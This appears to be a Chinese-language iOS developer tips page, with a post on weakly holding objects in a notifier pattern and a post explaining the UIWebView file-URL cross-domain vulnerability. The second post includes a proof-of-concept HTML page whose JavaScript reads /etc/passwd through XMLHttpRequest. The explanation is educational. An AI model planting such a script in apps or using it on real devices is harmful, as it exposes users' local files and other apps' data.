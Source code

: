 **作者**: [高老师很忙](https://weibo.com/517082456)

在通知者模式中，manger想弱持有一些对象，我们可以怎么做呢？

方案一：使用`Foundation`为大家提供的弱持有容器：`NSHashTable`、`NSMapTable`、`NSPointerArray`，初始化时把`option`设置成`weak`即可；

方案二：可以使用`CFFoundation`的`CFArrayCreateMutable`等来创建容器，被添加的对象引用计数不会加1；

方案三：可以妙用`NSValue`的`valueWithNonretainedObject`方法，被添加的对象不需要服从`NSCopying`协议；

方案四：使用我们通常用的强持有容器，让被添加的对象weak一下，比如使用`__weak`和`block`配合：在`block`中返回weak对象。

如果有其他思路的，欢迎提出！

谈一谈iOS平台跨域访问漏洞
--------

**作者**: [Lefe_x](https://weibo.com/u/5953150140)

最近很多关于 iOS Webview 漏洞的话题，利用这个机会，我也来说说对这个漏洞的理解，如果有理解不对的地方，欢迎指出，同时感谢 @折腾范儿_味精 的指点。

iOS平台跨域访问漏洞成因是由于 UIWebView 默认开启了WebKitAllowUniversalAccessFromFileURLs 和 WebKitAllowFileAccessFromFileURLs选项。这样黑客利用这个漏洞给某个 APP 下发一个 HTML 文件，当 UIWebView 使用 file 协议打开这个 HTML 文件，而 HTML 文件中含有一段窃取用户数据的 JS 代码，这样就导致用户数据泄露的可能。为了演示这个漏洞，我特意写了一个 Demo，截图是运行结果。

```
NSString *filePath = [[NSBundle mainBundle] pathForResource:@"index" ofType:@"html"];
_webView = [[UIWebView alloc] initWithFrame:self.view.bounds];
[_webView loadRequest:[NSURLRequest requestWithURL:[NSURL fileURLWithPath:filePath]]];
```

```
<!DOCTYPE html>
<html>
    <body>
        <script>
            // 这个可以是手机任意一个文件地址
            var localfile = "/etc/passwd"
            var xhr = new XMLHttpRequest();
            xhr.onreadystatechange = function() {
                if (xhr.readyState == 4) {
                    alert(xhr.responseText);
                }
            }
           try {
              xhr.open("GET", localfile, true);
              xhr.send();
           } catch (ex) {
              alert(ex.message);
           }
        </script>
    </body>
</html>
```
![](https://github.com/southpeak/iOS-tech-set/blob/master/images/2018/01/17-1-1.jpg?raw=true)

运行上面的代码，会读取出手机端 /etc/passwd 的文件。这样的话，我们可以利用这个漏洞访问其他应用的数据，而不必需要用户的许可。而 WKWiebView 的 WebKitAllowUniversalAccessFromFileURLs 和 WebKitAllowFileAccessFromFileURLs 默认是关闭的，不会存在这样的风险。


[AVAudioSession setActive:withOptions:error:]: Deactivating an audio session that has running I/O. All I/O should be stopped or paused prior to deactivating the audio session.`
